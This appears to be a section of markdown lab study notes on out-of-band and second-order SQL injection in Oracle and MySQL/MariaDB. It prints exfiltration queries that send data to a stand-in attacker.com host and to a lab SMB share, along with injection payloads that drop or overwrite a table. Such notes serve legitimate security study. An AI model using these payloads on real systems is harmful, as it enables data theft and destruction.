In Oracle databases, Out-of-band SQL injection can be executed using the [UTL_HTTP](https://docs.oracle.com/en/database/oracle/oracle-database/19/arpls/UTL_HTTP.html) or [UTL_FILE](https://docs.oracle.com/en/database/oracle/oracle-database/19/arpls/UTL_FILE.html) packages. For instance, the UTL_HTTP package can be used to send HTTP requests with sensitive data:

```bash
DECLARE
  req UTL_HTTP.REQ;
  resp UTL_HTTP.RESP;
BEGIN
  req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfiltrate?sensitive_data=' || sensitive_data);
  UTL_HTTP.GET_RESPONSE(req);
END;
```
<span style="font-size: 23px;">**Examples of Out-of-band Techniques**</span>

Out-of-band SQL injection techniques in MySQL and MariaDB can utilise various network protocols to exfiltrate data. The primary methods include DNS exfiltration, HTTP requests, and SMB shares. Each of these techniques can be applied depending on the capabilities of the MySQL/MariaDB environment and the network setup.

**HTTP Requests**

By leveraging database functions that allow HTTP requests, attackers can send sensitive data directly to a web server they control. This method exploits database functionalities that can make outbound HTTP connections. Although MySQL and MariaDB do not natively support HTTP requests, this can be done through external scripts or User Defined Functions (UDFs) if the database is configured to allow such operations.

First, the UDF needs to be created and installed to support HTTP requests. This setup is complex and usually involves additional configuration. An example query would look like `SELECT http_post('http://attacker.com/exfiltrate', sensitive_data) FROM books;`.

HTTP request exfiltration can be implemented on Windows and Linux (Ubuntu) systems, depending on the database's support for external scripts or UDFs that enable HTTP requests.

**DNS Exfiltration**

Attackers can use SQL queries to generate DNS requests with encoded data, which is sent to a malicious DNS server controlled by the attacker. This technique bypasses HTTP-based monitoring systems and leverages the database's ability to perform DNS lookups.

As discussed above, MySQL does not natively support generating DNS requests through SQL commands alone, attackers might use other means such as custom User-Defined Functions (UDFs) or system-level scripts to perform DNS lookups.

**SMB Exfiltration**

SMB exfiltration involves writing query results to an SMB share on an external server. This technique is particularly effective in Windows environments but can also be configured in Linux systems with the right setup. an example query would look like `SELECT sensitive_data INTO OUTFILE '\\\\10.10.162.175\\logs\\out.txt'`;.

This is fully supported as Windows natively supports SMB/UNC paths. Linux (Ubuntu): While direct UNC paths are more native to Windows, SMB shares can be mounted and accessed in Linux using tools like `smbclient` or by mounting the share to a local directory. Directly using UNC paths in SQL queries may require additional setup or scripts to facilitate the interaction.

<span style="font-size: 23px;">**payload**</span>

Using [python code](../files/pythonfile.md#smbserver) start the SMB server sharing the `/tmp` directory

To exploit this vulnerability, the attacker crafts a payload to inject into the field parameter. The payload will be designed to execute an additional SQL query that writes the database version information to an external SMB share.

```bash
1'; SELECT @@version INTO OUTFILE '\\\\10.10.254.238\\logs\\out.txt'; --
```
- `1'`: Closes the original string within the SQL query.
- `;`: Ends the first SQL statement.
- `SELECT @@version INTO OUTFILE '\\\\ATTACKBOX_IP\\logs\\out.txt';`: Executes a new SQL statement that retrieves the database version and writes it to an SMB share at \\ATTACKBOX_IP\logs\out.txt.
- `--`: Comments the rest of the original SQL query to prevent syntax errors.

---

### Second-Order SQL Injection

Second-order SQL injection, also known as stored SQL injection, exploits vulnerabilities where user-supplied input is saved and subsequently used in a different part of the application, possibly after some initial processing. This type of attack is more insidious because the malicious SQL code does not need to immediately result in a SQL syntax error or other obvious issues, making it harder to detect with standard input validation techniques. The injection occurs upon the second use of the data when it is retrieved and used in a SQL command, hence the name "**Second Order**".


**Impact**

The danger of Second-Order SQL Injection lies in its ability to bypass typical front-end defences like basic input validation or sanitisation, which only occur at the point of initial data entry. Since the payload does not cause disruption during the first step, it can be overlooked until it's too late, making the attack particularly stealthy.

**payload**

```sql
12345'; DROP TABLE books; --

12345'; UPDATE books SET book_name = 'Hacked'; --
```

### continued

[Advanced SQL Injection](../webapp/InjectionAttacks.md#advanced-sql-injection)
